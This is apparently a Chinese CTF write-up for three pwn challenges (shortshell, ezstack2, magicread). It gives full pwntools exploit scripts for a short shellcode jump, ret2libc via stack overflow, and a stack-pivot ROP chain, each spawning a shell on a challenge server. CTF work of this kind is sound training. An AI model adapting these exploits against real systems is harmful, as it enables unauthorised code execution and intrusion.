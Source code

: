 ## <font style="color:#D22D8D;">shortshell</font>
![](../../../../images/43692f375b03429e87ae1d7569d661ea.png)

打 5 个字节指令跳转即可。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
p = remote('challenge.yuanloo.com',46794)
payload = b'\x58\x04\x0b\xff\xe0'
p.send(payload)
p.interactive()
```

## <font style="color:#D22D8D;">ezstack2</font>
![](../../../../images/64a12c83614ac703345c781a385dc921.png)

stack() 函数有栈溢出。

![](../../../../images/9dd1f1358556479328d5871d424519d2.png)

直接打 ret2libc 就行了，libc 在线找，libc6_2.31-0ubuntu9.9_amd64 就可以。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

banary = "./ezstack2"
elf = ELF(banary)
p = remote("challenge.yuanloo.com",23816)
func = 0x400739
pop_rdi = 0x400823
leave_ret = 0x4007B3
ret = 0x40056e
system = elf.sym["system"]
bss = elf.bss(0x700)
p.recvuntil(b'good stack')
pay = b'a'*0x30 + p64(bss) + p64(pop_rdi) + p64(elf.got["puts"]) + p64(elf.sym["puts"]) + p64(func)
p.sendline(pay)
puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
print(hex(puts_addr))
libc = ELF('./libc.so')
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search('/bin/sh').__next__()
print(hex(libc_base))
pause()
payload = b'a'*0x38 + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```



## <font style="color:#D22D8D;">magicread</font>
给了 libc，一次 read，栈迁移。

![](../../../../images/0118097d99d6f8ea8f5034cd0496d6e2.png)

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

banary = "./pwn"
elf = ELF(banary)
libc = ELF("./libc-2.23.so")
p = remote('challenge.yuanloo.com',49287)
pop_rdi = 0x400723
ret = 0x4004c6
p.recvuntil(b"just read")
pay = b'a'*0x40 + p64(elf.bss(0x500)) + p64(0x400675)
p.send(pay)
rop = p64(elf.bss(0x600)) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400675) + p64(0x400691)
rop = rop.ljust(0x40, b'a') + p64(elf.bss(0x500)-0x40) + p64(0x400691)
p.send(rop)
puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
pause()
libc_base = puts_addr - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh"))
payload =  p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x40, b'a') + p64(elf.bss(0x600)-0x48) + p64(0x400691)
p.sendline(payload)
p.interactive()
```

